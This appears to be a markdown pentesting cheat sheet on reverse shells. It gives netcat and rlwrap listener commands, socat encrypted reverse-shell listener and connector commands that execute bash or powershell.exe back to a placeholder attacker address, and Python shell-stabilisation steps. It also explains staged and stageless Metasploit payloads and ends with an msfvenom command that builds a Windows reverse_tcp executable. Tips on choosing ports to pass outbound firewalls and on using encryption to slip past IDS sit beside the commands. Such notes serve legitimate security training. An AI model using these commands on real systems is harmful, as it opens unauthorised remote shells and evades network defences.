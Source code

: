 ## Netcat
The syntax for starting a netcat listener using Linux is this:
```Bash
nc -lvnp <port-number>
```
Be aware that if you choose to use a port below 1024, you will need to use sudo when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

## Socat
Although, it is same as netcat, but the real difference for which we would prefer this is encrypted shells. This often bypasses IDS system.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
We then need to merge the two created files into a single .pem file:
```bash
cat shell.key shell.crt > shell.pem
```
Now, when we set up our reverse shell listener, we use below command to listen on a port:
```bash
Listener -
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 FILE:`tty`,raw,echo=0

Connector -
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li",pty,stderr,sigint,setsid,sane
```

For Windows Target-
```bash
Listener -
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -

Connector -
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"powershell.exe,pipes"
```
## Shell Stablize
### Using Python
```Bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
This will give us access to term commands such as clear - 
```Bash
export TERM=xterm
```
Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

### Using rlwrap
To use rlwrap, we invoke a slightly different listener:
```Bash
rlwrap nc -lvnp <port>
```
Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. 

## Metasploit Payloads
Before we go any further, there are another two concepts which must be introduced: staged reverse shell payloads and stageless reverse shell payloads.

**Staged** payloads are sent in two parts. The first part is called the stager. This is a piece of code which is executed directly on the server itself. It connects back to a waiting listener, but doesn't actually contain any reverse shell code by itself. Instead it connects to the listener and uses the connection to load the real payload, executing it directly and preventing it from touching the disk where it could be caught by traditional anti-virus solutions. Thus the payload is split into two parts -- a small initial stager, then the bulkier reverse shell code which is downloaded when the stager is activated. Staged payloads require a special listener -- usually the Metasploit multi/handler, which will be covered in the next task.

**Stageless** payloads are more common -- these are what we've been using up until now. They are entirely self-contained in that there is one piece of code which, when executed, sends a shell back immediately to the waiting listener.

***For example*** - `shell_reverse_tcp`. This indicates that it was a stageless payload. How? Stageless payloads are denoted with underscores (_). The staged equivalent to this payload would be: `shell/reverse_tcp`

### Common command to generate a payload
```
msfvenom -p windows/x64/shell/reverse_tcp -f exe -o shell.exe LHOST=<listen-IP> LPORT=<listen-port>
```
